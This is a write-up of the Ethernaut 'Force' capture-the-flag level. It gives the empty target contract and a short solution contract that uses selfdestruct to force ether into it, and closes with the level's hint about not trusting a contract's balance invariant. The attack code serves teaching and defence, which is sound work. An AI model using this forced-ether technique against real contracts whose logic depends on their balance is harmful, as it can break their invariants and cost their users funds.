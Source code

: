 # Force

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

- Fallback methods
- Sometimes the best way to attack a contract is with another contract.


```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

## Solution

```
contract ForceHack {

  function sendEther(address payable _contractAddress) external payable {
    selfdestruct(_contractAddress); // this will destroy this contract and will send the eth balance to the _contractAddress
  }
   
}
```



### Hint from Ethernaut
In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.